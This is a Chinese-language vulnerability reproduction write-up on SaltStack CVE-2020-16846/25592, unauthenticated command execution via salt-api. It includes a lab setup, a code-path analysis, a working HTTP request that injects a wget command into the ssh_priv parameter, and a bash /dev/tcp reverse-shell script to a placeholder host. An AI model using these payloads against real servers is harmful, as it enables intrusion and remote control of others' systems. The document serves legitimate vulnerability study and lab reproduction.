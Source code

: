 # SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

## 漏洞影响

<a-checkbox checked>SaltStack Version 3002</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3001.1, 3001.2</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3000.3, 3000.4</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2019.2.5, 2019.2.6</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2018.3.5</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2017.7.4, 2017.7.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.11.3, 2016.11.6,2016.11.10</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.3.4, 2016.3.6,2016.3.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2015.8.10, 2015.8.13</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 **FileLocation:Classname.method()**

**salt/netapi/init.py:NetapiClient.run()**

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165558077.png)



low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给**kwargs。**

当client参数为ssh时，动态调用**salt/netapi/init.py:NetapiClient.ssh()**, 该方法未采用任何鉴权。

**salt/netapi/init.py:NetapiClient.ssh()**



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551777.png)



跟进，路径如下：

**salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()**

**salt/client/ssh/client.py:SSHClient._prep_ssh()**



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554779.png)



该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

`salt/client/ssh/init.py:SSH.__init__()`

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552768.png)



priv的值从opts变量中获取，并调用`salt.client.ssh.shell.gen_key()`方法

`salt/client/ssh/shell.py:gen_key()`

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551783.png)

```shell
POST /run HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554420.png)



反弹shell的方法，先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165553216.png)

监听端口，使用 **/bin/bash** 运行文件 反弹shell

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552939.png)

## 参考文章

<a-alert type="success" message="https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag" description="" showIcon>
</a-alert>
<br/>